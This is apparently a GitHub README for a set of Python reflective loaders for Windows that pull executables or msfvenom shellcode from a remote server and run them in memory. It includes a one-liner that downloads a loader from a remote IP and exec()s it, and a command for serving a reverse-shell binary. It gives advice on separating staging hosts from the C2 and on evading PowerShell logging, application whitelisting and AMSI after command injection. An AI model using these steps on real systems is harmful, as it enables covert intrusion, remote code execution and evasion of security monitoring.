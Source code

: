 # windows_reflective_loader
Python based reflective loader for Windows

These are python based tools for relective loading on Windows systems.

winloader.py - reaches out to send.py via -i <IP> and -p <port> to pull exe binary to reflectively load. Ideally you would host winloader on a cloud based web server, then host send.py with payload on another cloud based system on different IP range/subnet, and have your C2 callback on a third cloud based IP to keep everything separate. You access controls to limit access to pull winloader.py and only run send.py when needed to send. You can pull and execute winloader.py in memory to avoid writing to disk using a oneliner similar to:
```python -c "import urllib.request, sys; sys.argv = ['winloader.py', '-i', '172.26.130.102', '-p', '4444']; exec(urllib.request.urlopen('http://172.26.130.102:80/winloader.py').read())"```
This would be useful in a scenario where a target system has python and you can exploit something like command injection to then run the python command. This would let you avoid the PowerShell logs of doing it in PowerShell and potentiall bypass application whitelisting and AMSI.

send.py - reads in the exe and waits to recieve connection to the specified port and IP and then send the exe. It is ran with a command similar to:
```python3 send.py -i 0.0.0.0 -p 4444 -f ./rvsh.exe```
This listens on all assigned IPs. for better OPSEC you would specifiy the specific IP if there are multiple interfaces and IPs.

<img width="980" height="509" alt="image" src="https://github.com/user-attachments/assets/3ff7be13-c34f-4eb3-b5eb-1ce7892809f2" />

<img width="893" height="508" alt="image" src="https://github.com/user-attachments/assets/681395fe-2425-4595-b421-6cb5fba2ad4e" />

<img width="894" height="511" alt="image" src="https://github.com/user-attachments/assets/104c6808-e1d9-4c32-85a5-a344859f91ce" />

<img width="895" height="511" alt="image" src="https://github.com/user-attachments/assets/22ea3d8d-87f7-4cf8-a965-a9c51d318bd1" />

shellcodeloader.py - similar to winloader.py but uses shellcode bytestring instead of an exe.

shellcodesend.py - similar to send.py but reads in a txt file of shellcode generated with msfvenom in python format.

<img width="979" height="505" alt="image" src="https://github.com/user-attachments/assets/a9f9d34a-2120-4982-991c-fe78b7d517e0" />

<img width="893" height="511" alt="image" src="https://github.com/user-attachments/assets/d7013026-373c-4f44-afb1-0afe2b36defa" />

<img width="896" height="511" alt="image" src="https://github.com/user-attachments/assets/23d298c6-3b77-4c76-a223-3cb4f6b748ab" />

<img width="899" height="513" alt="image" src="https://github.com/user-attachments/assets/32ac2d71-ab0c-4999-a326-a3e6c2c6aa8f" />

runner.py - a simple shellcode runner using ctypes. If you have access to system and don't care about writing to disk you can use this runner to phone home to your C2.

<img width="977" height="511" alt="image" src="https://github.com/user-attachments/assets/bfd14b28-97f8-46f8-bb0e-bebe97e981bf" />

<img width="904" height="517" alt="image" src="https://github.com/user-attachments/assets/0060df06-c15c-41d2-8526-478e257a3e3c" />

<img width="895" height="516" alt="image" src="https://github.com/user-attachments/assets/e7f7d7cb-c7d0-4713-a23e-23afd726f6d6" />
